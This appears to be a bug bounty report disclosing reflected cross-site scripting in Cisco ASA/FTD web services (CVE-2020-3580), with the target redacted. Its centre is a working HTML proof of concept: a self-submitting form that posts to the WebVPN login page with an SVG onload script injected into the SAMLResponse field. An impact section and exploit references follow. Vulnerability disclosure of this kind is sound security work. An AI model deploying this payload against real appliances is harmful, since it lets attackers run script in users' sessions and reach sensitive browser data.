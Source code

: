 
 ## XSS due to CVE-2020-3580 [$DOMAIN]
  
Multiple vulnerabilities in the web services interface of Cisco Adaptive Security Appliance (ASA) Software and Cisco Firepower Threat Defense (FTD) Software could allow an unauthenticated, remote attacker to conduct cross-site scripting (XSS) attacks against a user of the web services interface of an affected device. 

## Steps To Reproduce 
 Go to this  URL  $URL	

 HTML POC (POST Reflected XSS) :

```
<html>  <head>  <script> function submit_saml() {
    document.cookie = "webvpnlogin=1; path=/; secure";
  document.createElement('form').submit.call(document.getElementById('samlform'));
} </script>  </head>  <body onload="submit_saml()">  <form id="samlform" action="/+webvpn+/index.html" method="POST">  <input type="hidden" name="tgroup" value="">  <input type="hidden" name="next" value="">  <input type="hidden" name="tgcookieset" value="">  <input type="hidden" name="group_list" value="a">  
<input type="hidden" name="username" value="">  <input type="hidden" name="password" value="">  
<input type="hidden" name="SAMLResponse" value=""><svg/onload=alert(document.cookies)>"> <input type="submit" name="Login" value="Login" style="display:none;">  </form>  </body>  </html>

```
This popup will be shown:

![enter image description here](https://xxx)

## Impact

- An attacker could exploit these vulnerabilities by persuading a user of the interface to click a crafted link.

- A successful exploit could allow the attacker to execute arbitrary script code in the context of the interface or allow the attacker to access sensitive, browser-based information. 


### Supporting Material References

https://www.exploit-db.com/exploits/47988

https://twitter.com/sagaryadav8742/status/1275170967527006208
